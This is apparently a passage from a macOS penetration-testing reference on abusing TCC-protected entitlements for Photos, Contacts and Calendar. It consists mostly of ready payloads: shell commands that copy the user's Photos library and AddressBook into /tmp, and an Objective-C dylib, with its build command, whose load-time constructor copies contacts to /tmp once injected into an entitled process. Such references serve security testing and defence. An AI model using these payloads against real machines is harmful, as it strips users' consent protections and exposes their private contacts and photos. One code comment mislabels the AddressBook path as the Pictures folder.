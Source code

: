 ```

**Shell**
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.

```bash
cp -r "$HOME/Pictures/Photos Library.photoslibrary" "/tmp/photos"
```
```


### Contacts

- **Entitlement**: `com.apple.security.personal-information.addressbook`
- **TCC**: `kTCCServiceAddressBook`

**ObjetiveC**
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Application Support/AddressBook"];
    NSString *tmpPhotosPath = @"/tmp/contacts";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
```

**Shell**
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```bash
cp -r "$HOME/Library/Application Support/AddressBook" "/tmp/contacts"
```
```


### Calendar

- **Entitlement**: `com.apple.security.personal-information.calendars`
- **TCC**: `kTCCServiceCalendar`
```